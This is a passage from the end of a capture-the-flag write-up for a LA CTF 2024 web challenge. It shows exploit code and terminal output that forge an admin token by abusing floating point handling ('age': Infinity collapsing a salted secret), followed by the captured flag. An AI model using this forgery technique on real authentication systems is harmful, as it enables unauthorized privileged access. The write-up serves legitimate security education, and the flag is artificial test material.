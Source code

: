 ```python
    baseUrl = 'https://jwt.chall.lac.tf'
    jwt = JasonWebToken(baseUrl)
    jwt.exploit()
```

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/jason-web-token)-[2024.02.20|14:45:51(HKT)]
└> python3 jwt_signature_generator.py
[*] Generating new forged token...
[*] Salted secret: inf
[*] Signature: 7c9f68b0bcb85fe6a85984e709fd84429754ea771c6e3c0af28c2f13702dfd36
[*] Raw JSON data: {"username": "givemeflag", "age": Infinity, "role": "admin", "timestamp": 1708411618}
[+] Token: 7b22757365726e616d65223a2022676976656d65666c6167222c2022616765223a20496e66696e6974792c2022726f6c65223a202261646d696e222c202274696d657374616d70223a20313730383431313631387d.7c9f68b0bcb85fe6a85984e709fd84429754ea771c6e3c0af28c2f13702dfd36

[+] The token has been forged! Here's the flag:
lactf{pr3v3nt3d_th3_d0s_bu7_47_wh3_c0st}
```

- **Flag: `lactf{pr3v3nt3d_th3_d0s_bu7_47_wh3_c0st}`**

## Conclusion

What we've learned:

1. Floating point confusion